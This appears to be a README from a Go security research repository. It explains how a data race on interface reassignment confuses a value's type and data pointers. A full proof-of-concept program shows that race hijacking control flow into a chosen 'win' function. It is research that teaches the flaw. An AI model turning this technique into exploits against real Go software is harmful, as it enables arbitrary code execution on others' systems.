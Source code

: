 # Unsafe Interfaces
## Building
```
$ go run .
win 92 5319
exit status 1
```

## Underlying interface structures
```go
type itab struct {
	inter *interfacetype
	_type *_type
	hash  uint32 // copy of _type.hash. Used for type switches.
	_     [4]byte
	fun   [1]uintptr // variable sized. fun[0]==0 means _type does not implement inter.
}
```
_Snippet from [go/src/runtime/runtime2.go](https://github.com/btonic/go-research/blob/e2ab4a841a35cad07b35fee7d5ac193d910f43b4/go/src/runtime/runtime2.go#L807-L813)_

```go
type iface struct {
	tab  *itab
	data unsafe.Pointer
}
```
_Snippet from [go/src/runtime/runtime2.go](https://github.com/btonic/go-research/blob/e2ab4a841a35cad07b35fee7d5ac193d910f43b4/go/src/runtime/runtime2.go#L200-L203)_

## Conformity Race
An interface defines a set of type-bound methods which must be implemented for a type to conform to the interface. This is enforced during the assignment of a value to any variable defined as requiring a given interface (e.g. `var x MyInterface` can only be assigned to value types implement `MyInterface`-required type-bound methods). In order for this to work, the underlying type of an `interface{}` is represented as a structure containing pointers to the interface table (`tab`), and data (`data`).

Because the evaulation of `data` is dependent on the type information stored within `tab`, interfaces are prone to race conditions during reassignment, which could potentially leading to incorrect evaluation of `data`.

```go
type C interface {
    Exec()
}

type A struct {
    fintptr *int
}

func (a *A) Exec() {
    // some sort of work where `fintptr` can be reassigned by an attacker
}

type B struct {
    fptr func()
}
func (b B) Exec() {
    // some sort of work here, where `fptr` is executed (e.g. `fptr()`)
}
```

Given the definitions of `A`, `B`, `C` and their bound functions to implement `C`'s interface, the following is the premise of the dangerous race:

1. Variable `confused` (an arbitrary variable) is a variable of type `C`.
2. `confused.Exec()` is repeatedly executed in a loop within goroutine `A`.
3. `confused` is repeatedly reassigned in an arbitrary goroutine, which we will denote as `B`.
4. `confused.Exec()` is executed when `data` points to that of an arbitrary `A`, but the type information points to that of an arbitrary `B`.
5. The confused state results in the evaluation of `A.fintptr` as `B.fptr`, resulting in `B.Exec` executing the attacker-supplied `A.fintptr`.
6. Execution of the function at address `A.fintptr` begins in coroutine A.

In our [example](./main.go), we can observe this type of race in a pure form. We can define a `win` function, which is what we will be racing to execute, and an `address` function which will let us calculate an integer-formatted address for use during our race.

```go
// Utility functions

// i and j simply hold the loop counters for the `main` coroutine, and the spawned coroutine.
var i, j int

// address simply returns the integer address of a given parameter.
func address(i interface{}) int {
	addr, err := strconv.ParseUint(fmt.Sprintf("%p", i), 0, 0)
	if err != nil {
		panic(err)
	}
	return int(addr)
}

// For our example, we will be invoking `win` through the `StructIntPtr`'s 	`funcptr` field.
// Win is a simple target because it expects no parameters, so we don't have to groom the stack.
func win() {
	fmt.Println("win", i, j)
	os.Exit(1)
}
```

We then have two structures (equivalent to `A` and `B`), which implement the same interface (equivalent to `C`).

```go

// Interface defines the interface which both types in our race must comply with.
// In this case, each type must implement a function `X` with no return value.
type Interface interface {
	Exec()
}

// StructIntPtr contains a single field, `funcptr`, which in our case is some sort of user-controlled
// address. Effectively, this is the field pointing to the address we would like to execute during our
// race.
type StructIntPtr struct {
	funcintptr *int
}

// X is stubbed out in the StructIntPtr for our example, so we don't have to worry about other logic
// impeding our ability to hit the race condition.
func (s StructIntPtr) Exec() {}

// StructFuncPtr defines an interface with a normal `funcptr` (the typical way you would reference a function pointer).
// This structure is what will execute our stale (`funcintptr`) address, as `funcptr` will inherit the value of `StructIntPtr.funcintptr`.
type StructFuncPtr struct {
	funcptr func()
}

func (u StructFuncPtr) Exec() {
	// Because we are not initializing `u.`
	if u.funcptr != nil {
		u.funcptr()
	}
}
```
Within `main`, we then calculate the `win` address so we can use it to emulate the attacker-controlled value of our race. We then initialize `a` and `b` to each of the respective struct types, and assign `confused` to `a` for an initial value. At this point, we are then ready to begin our racing operations. The main goroutine will spawn a new goroutine, which will infinitely loop, reassigning the value of `confused` back and forth between `a` and `b`. After this coroutine is spawned, the main goroutine will then loop infinitely, executing `confused.Exec()`. When a race occurs, the spawned goroutine will continue reassigning `confused`, while the main goroutine will then transition to executing the `win` function.

```go
func main() {
	// A minimum of two CPUs are necessary, since our corouines must execute on different MPs.
	if runtime.NumCPU() < 2 {
		fmt.Println("need >= 2 CPUs")
		os.Exit(1)
	}

	// The winAddr is the address of the `win` function.
	winAddr := address(win)

	// We are defining the variables involved in the race:
	//
	// * `confused`: The confused variable is what will be used as a proxy to `a` and `b`
	// * `a`: The struct we will be using during the race to overwrite `StructFuncPtr.funcptr` in `b`.
	// * `b`: The struct we will be executing our inherited `funcintptr` value from `a` within.
	var confused, a, b Interface
	a = &StructIntPtr{funcintptr: &winAddr}
	b = &StructFuncPtr{}

	// Since confused was not initialized to a value, we are going to start with a value of a,
	// Which has a stubbed `X`. That way, we can let the coroutine spawn and start assigning values
	// to `confused` between `a` and `b`.
	confused = a

	// Spawn the racy coroutine.
	go func() {
		// We are going to infinitely loop, reassigning confused back and forth between `a` and `b`.
		// When the race condition is hit in the mainthread, this coroutine won't matter anymore,
		// As we will be able to begin controlling execution flow, regardless of `confused`.
		for {
			confused = b

			// We need to keep the assignment to `confused` from being inlined by the compiler.
			// Referencing `confused` from inside an inlined function will allow us to force
			// inlining to be too expensive.
			func() {
				if i >= 0 {
					return
				}
				fmt.Println(confused)
			}()

			confused = a
			// Bump i to show how many times (roughly) the spawned coroutine executed prior to
			// achieving control of execution flow.
			i++
		}
	}()

	// In the `main` coroutine, repeatedly executes `confused.Exec()` so we can attempt
	// to invoke the `funcintptr` value leftover from `a`, as `funcptr`.
	for {
		confused.Exec()
		j++
	}
}
```